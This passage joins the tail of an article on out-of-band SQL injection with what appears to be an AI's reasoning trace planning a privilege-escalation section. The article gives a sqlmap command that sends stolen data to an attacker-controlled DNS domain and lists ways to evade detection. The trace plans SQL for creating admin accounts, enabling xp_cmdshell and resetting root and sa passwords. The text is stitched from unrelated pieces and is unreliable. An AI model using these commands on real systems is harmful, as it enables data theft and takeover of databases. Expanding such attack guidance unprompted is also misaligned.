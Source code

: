 
### Automation with SQLMap  
Tools like **SQLMap** streamline OOB attacks by automating payload generation and listener setup. For example:  
```bash
sqlmap -u "http://target.com/vulnerable-page" --technique=UOEB --dns-domain=attacker-domain.com --dns-recursive  
```  
Here, `--technique=UOEB` enables OOB testing, while `--dns-domain` specifies the attacker’s controlled DNS server to capture exfiltrated data.  

---

### Mitigation Bypasses  
Attackers often counter defensive measures by:  
- **Obfuscating Payloads**: Encoding SQL functions (e.g., hex, base64) to evade signature-based detection.  
- **Using Rare Functions**: Exploiting lesser-known database features (e.g., `DBMS_PIPE` in Oracle) that are less likely to be monitored.  
- **Segmentation Evasion**: Targeting databases with unrestricted outbound access, such as those in legacy systems or misconfigured cloud environments.  

OOB SQLi is a sophisticated technique that underscores the importance of strict network segmentation, disabling unnecessary database functions, and monitoring outbound traffic from database servers. Its effectiveness in evading modern defenses makes it a critical vector for advanced attackers.


Okay, I need to write the "Privilege Escalation to Administrative Access" section based on the provided information. Let me start by understanding the key points from the user's input. The section should detail how attackers escalate privileges using SQL injection, focusing on methods like creating admin accounts, enabling dangerous functions, modifying existing accounts, and exploiting weak permissions. They also want examples and maybe some tables for clarity.

First, I'll structure the section into subsections for each method. The user mentioned four main methods: creating admin accounts, enabling high-risk functions, modifying existing accounts, and exploiting weak permissions. Each of these can be a subsection. 

Starting with creating admin accounts. The user provided SQL examples for MySQL and MSSQL. I should explain each example, maybe add Oracle and PostgreSQL as well since the previous sections covered different databases. Wait, the user's example only includes MySQL and MSSQL, but the search results mentioned Oracle and PostgreSQL too. I should include those to make it comprehensive.

Next, enabling high-risk functions. The user mentioned xp_cmdshell for MSSQL and UTL_HTTP for Oracle. I should explain how these functions work and their implications. Also, maybe include MySQL's LOAD_FILE or other functions if applicable.

Modifying existing accounts: resetting admin passwords. For MySQL, altering the root user's password, and for MSSQL, changing the sa account. Need to provide SQL commands here. Also, maybe mention other databases like Oracle's SYS account.

Exploiting weak permissions: accessing sensitive tables like mysql.user or sys.sql_logins. Explain how attackers can read these tables to get credentials or alter roles. Maybe include an example of a query that extracts passwords or modifies privileges.

The example workflow is already outlined, but I should expand it into a step-by-step process, perhaps with more details on each step. Also, adding a table comparing different databases and their escalation methods would be helpful, as the user suggested using tables.
